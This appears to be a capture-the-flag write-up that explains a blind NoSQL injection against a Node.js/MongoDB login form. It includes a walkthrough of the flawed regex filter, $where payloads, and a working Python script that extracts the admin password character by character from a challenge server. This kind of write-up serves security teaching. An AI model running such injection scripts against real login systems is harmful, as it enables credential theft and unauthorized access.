 # Description:
**I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account?**

**There was a source code provided with the chall**

# Walkthrough:
**First, let's access the main page of the website.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/035fb34f-cbfd-47fa-9241-e4442dce4140)

**lets look at the sign in page**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/e91f5753-8bd2-483c-8517-f9f91f42a171)

**Now lets look at the code to get better understanding of the web app**

**in the provided folder we have two importand files firs index.js and second startup.js lets take a look deeper in them**


**startup.js**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/22639b08-90d1-4782-bdea-6a32a010e584)
**it is a normal file for oppen a connection with mongodb (nosql db) and it create a collection(table) called users and add document in it with data username -> admin password->flag so it is clear that we need to get the flag right <3**


**index.js**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/855df51e-bc48-4694-be73-b086a5a76baf)

**it is a normal application writen with nodejs and used express as a framework**

**But in the login i notice that there is a vuln with how the code take the data from the user here**

**the developer take the input from the user and pass it fillter function lets see what dose this function do**

```const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```
**it's goal is to convert input to lower and check if it have a regex word in it or not mmmmmmmmmmm interesting**

**lets get back the login route after the filter function return true it start a connection with the db and pass the req.body to the db (it is nosql) wow it only validate that input dosent have a regex word and i have a full control on the request from i can add any paramters i want and it will get passed to the db**

**after the db retrun data it only print a Login successful! here i knowed that iam facing an blindbased nosql injection and i cannot use regex word to get the flag but i have a full control on the paramters that is being passed to the db**

**so what about add the $where operator that makes me able to write a js code that could help me to get the flag so lets first make sure that it accept the where operator by sending this $where:"1" and this $where:"0" and see the difference in the response**

**i deleted the password so it dosent retrun Login failed! every time i have a full control on the paramters DF**

**in $where:"1" we got a Login successful! oh nice**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/c5d41e41-eb27-4d6b-b984-a417e08c4ff3)

**in  $where:"0" we got Login failed!**
![image](https://github.com/qlashx/ctf_writeups/assets/106611511/60916a21-b6be-4fd5-92d8-a48e2844d608)

**so now we know that on the right statment we will get  Login successful! and on false we will get  Login failed!**

**now how we will get the password ????????**

**so what about do this -> this.password -> if this return true it mean that it see the password filed in the db and we can get the flag by brute forcing its content lets try**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/761f5b92-194a-4ad7-b68b-a55002918f1c)

**it worked  so first lets know the size but howw? -> like this this.password[0],this.password[20] till it return false it mean that it's size is smaller than the number you are passing after some time i knowed the size was 59**

**now we need to extract the data we can access each char as i saied like this this.password[0] right ? so what about make a bollean statment and check if it return true it mean that this index contain this char**

**like this this.password[0]=="a" if it return true it mean that at index 0 the char is a got it ? <3**
**but iam not doing it for a 59 char XD so i made this script**
```import requests
import json
wordlist = [
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    'A', 'a', 'B', 'b', 'C', 'c', 'D', 'd', 'E', 'e',
    'F', 'f', 'G', 'g', 'H', 'h', 'I', 'i', 'J', 'j',
    'K', 'k', 'L', 'l', 'M', 'm', 'N', 'n', 'O', 'o',
    'P', 'p', 'Q', 'q', 'R', 'r', 'S', 's', 'T', 't',
    'U', 'u', 'V', 'v', 'W', 'w', 'X', 'x', 'Y', 'y',
    'Z', 'z', '~', '!', '@', '#', '$', '%', '^', '&',
    '*', '(', ')', '-', '_', '+', '=', '{', '}', ']',
    '[', '|', '\\', '`', ',', '.', '/', '?', ';', ':',
    "'", '"', '<', '>', ' '
]

password = ''

# Define the JSON data
data = {"username": "admin", "$where": ""}

# Iterate through each character in the wordlist
for i in range(60):
    for char in wordlist:
        data["$where"] = f"this.password[{i}]=='{char}'"


        response = requests.post('http://35.232.242.42:5249/login', json=data)

        if response.status_code == 200:
            password += char
            i = i+1
            print("Password:", password)
            break

print("Password:", password)```

**and after you run this you will get the flag GGGGGGGGGG**

flag -> squ1rrel{7h0ugh7_y0u_c0u1d_regex_y0ur_way_0u7_0f_7h1s_ay3?}







